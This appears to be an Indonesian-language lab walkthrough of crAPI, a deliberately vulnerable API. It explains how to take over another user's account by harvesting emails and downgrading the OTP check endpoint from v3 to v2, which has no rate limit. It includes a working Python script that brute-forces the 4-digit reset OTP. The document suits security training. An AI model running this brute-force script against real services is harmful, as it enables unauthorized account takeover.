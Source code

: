# Broken User Authentication
Kesalahanpahaman pengembang aplikasi mengenai batasan otentitikasi menyebabkan penyerang dapat memperoleh kendali penuh atas akun pengguna lain di sistem, seperti membaca data pribadi mereka dan  melakukan tindakan sensitif atas nama mereka. Sistem tidak mungkin bisa membedakan mana tindakan dari penyerang dan mana yang dari pengguna yang sah.

## Challenge 3 - Reset the password of a different user
- Hidupkan tool Burp Suite dan pergi ke halaman **Community**

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%201.JPG)

- Pada tool Burp Suite terdeteksi bahwa halaman tersebut melakukan request ke endpoint API `/community/api/v2/community/posts/recent` yang response nya memuat email dari pengguna lain yang dapat kita manfaatkan untuk melakukan request **reset password**

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%202.JPG)

- Sekarang kita logout dari akun yang kita gunakan kemudian kita coba fitur **Forgot Password**

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%203.JPG)

- Lalu isi dengan email yang kita gunakan untuk mengakses web crAPI dan tekan tombol **Send OTP**

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%204.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%205.JPG)

- Pada tool Burp Suite terdeteksi endpoint API `/identity/api/auth/forget-password` untuk mengirim kode OTP ke email

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%206.JPG)

- Buka mailhog di tab baru dengan URL `http://IP_Server:8025`, disini kita menerima email yang berisi kode OTP

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%207.JPG)

- Kode OTP tersebut berupa angka yang terdiri dari 4 digit

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%208.JPG)

- Sekarang kita coba masukkan kode OTP yang salah ke halaman forgot password dan masukkan password baru lalu tekan tombol **Set Password** maka kita akan mendapat pesan `Invalid OTP`

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2010.JPG)

- Pada tool Burp Suite terdeteksi endpoint API `/identity/api/auth/v3/check-otp` yang digunakan untuk mengecek kode OTP dan mereset password

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2011.JPG)

- Klik kanan request tersebut dan pilih **Send to Repeater**

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2012.JPG)

- Pindah ke tab Repeater dan tekan tombol **Send**

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2013.JPG)

- Disini kita bisa mencoba memasukkan kode OTP yang salah berulang kali untuk memastikan apakah ada pembatasan request atau tidak. Setelah beberapa kali kita mendapat pesan bahwa request kita mencapai batas maksimal

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2014.JPG)

- Setelah kita coba mengubah endpoint dari `v3` menjadi `v2` kita mendapati bahwa endpoint ini tidak memiliki batas request yang ditentukan sehingga memungkinkan kita untuk melakukan brute force kode OTP dan mengubah password user lain yang kita temukan di halaman **Community**

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2015.JPG)

- Disini kita akan membuat program menggunakan bahasa python untuk melakukan brute force kode OTP dan melakukan reset password pada akun user lain. Pertama-tama kita akan mengirim request ke endpoint `/identity/api/auth/forget-password` untuk mengirim kode OTP ke email. Setelah itu mereset password dengan melakukan uji coba kode OTP dari `0000` hingga `9999` sesuai format kode OTP yang terima di email melalui endpoint `/identity/api/auth/v2/check-otp`. Berikut ini adalah kode program yang kita gunakan, simpan script dibawah ini dengan nama `brute_otp_crapi.py`
```sh
import requests
import time

start = time.time()

url = 'http://IP_Server:8888' #ubah url sesuai url server anda
email = 'email' #ubah dengan email yang anda temukan

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': '*/*',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': url+'/forgot-password',
    'Origin': url,
    'Connection': 'close',
    'Content-Type': 'application/json',
    'Cache-Control': 'no-cache',
    'Pragma': 'no-cache',
}

# Mengirim kode OTP ke email
response = requests.post(url+'/identity/api/auth/forget-password', headers=headers, json={"email": email})

if response.status_code == 200:
	json_response = response.json()
	print(json_response["message"])
	response.close()
	print("\nMelakukan bypass kode OTP dengan brute force\n")
	
	#bypass kode OTP dengan brute force
	for i in range(10000):
		#padding angka 0
		if i < 1000:
			otp = f"{i:04}"
		else:
			otp = i
		
		data_reset_password = {
	           'email': email,
	           'otp': otp,
	           'password': 'password', #ubah password sesuai keinginan anda
		}
		
		r = requests.post(url+'/identity/api/auth/v2/check-otp', headers=headers, json=data_reset_password)
		print('[Kode OTP:{}, Response:{}]'.format(otp,r.status_code))
		
		if r.status_code == 200:
			print("Berhasil melakukan reset password")
			print(r.json())
			r.close()
			break
		elif r.status_code == 503:
			print("Request telah dibatasi")
			print(r.json())
			r.close()
			break
		
		r.close()
		
	
else:
	print("Permintaan tidak dapat dikirim")
	
end = time.time()
print(f"\nWaktu eksekusi:{(end-start)*10**3:.03f} ms")

```

- Jalankan program diatas dan tunggu hingga proses selesai
```sh
python3 brute_otp_crapi.py
``` 

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2016.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/crAPI-walkthrough/blob/main/assets/broken%20user%20authentication/bua%2017.JPG)